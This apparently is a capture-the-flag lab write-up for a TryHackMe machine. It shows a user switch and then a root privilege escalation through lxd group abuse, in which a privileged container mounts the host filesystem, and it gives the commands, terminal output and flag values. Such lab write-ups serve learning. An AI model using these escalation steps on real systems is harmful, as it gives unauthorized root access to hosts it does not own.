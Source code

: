>>NOW SWITCH USER TO FLYNN AND THEN GO TO HOME DIRECTORY AND FLYNN DIRECTORY AND CAT THE USER.TXT.TO ESCALATE OUR PRIVELEGE AS ROOT WE NEED TO ABUSE THE GROUP "lxd".

```
www-data@light-cycle:/var/www/TheGrid/includes$ su flynn    
Password: 
flynn@light-cycle:/$ cd home
flynn@light-cycle:/home$ ls
flynn
flynn@light-cycle:/home$ cd flynn/
flynn@light-cycle:~$ ls
user.txt
flynn@light-cycle:~$ cat user.txt 
THM{IDENTITY_DISC_RECOGNISED}
flynn@light-cycle:~$ id
uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
```

>>USE THIS COMMAND TO "lxc image list" LIST THE IMAGES.
NOW USE "lxc init Alphine strongbad -c security.privileged=true" THIS COMMAND TO CREATE A CONTAINER IN THAT IMAGE.    
>>THEN USE "lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true"
THIS COMMAND TO CONFIGURE AND ADDING A DEVICE IN THAT CONTAINER AND THEN SPECIFYING THE PATH TO INSTALL IT AND SETTING RECURSIVE=TRUE.
>>AFTER ADDING THE DEVICE USE THIS "lxc start strongbad" TO START THE CONTAINER.
>>AFTER STARTING THE CONTAINER USE THIS "lxc exec strongbad /bin/sh" TO EXECUTE THAT CONTAINER AND GETTING THE SHELL.
>>AFTER GETTING THE SHELL USE "id" TO SEE THE USER ,THEN NAVIGATE TO THE /mnt/root/root TO GET THE ROOT.TXT  

```
flynn@light-cycle:~$ lxc image list
To start your first container, try: lxc launch ubuntu:18.04

+--------+--------------+--------+-------------------------------+--------+--------+------------
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |UPLOAD DATE|
+--------+--------------+--------+-------------------------------+--------+--------+------------
| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 
																					  						  |	2020 at 
																											  |3:51am 
																											  |	(UTC) 
+--------+--------------+--------+-------------------------------+--------+--------+------------

flynn@light-cycle:~$ lxc init Alpine strongbad -c security.privileged=true
Creating strongbad
mnt/root recursive=true
Error: Invalid devices: Disk entry is missing the required "path" property
flynn@light-cycle:~$ lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true
Device trogdor added to strongbad 
flynn@light-cycle:~$ lxc start strongbad
flynn@light-cycle:/$ lxc exec strongbad /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
\THM{FLYNN_LIVES}

```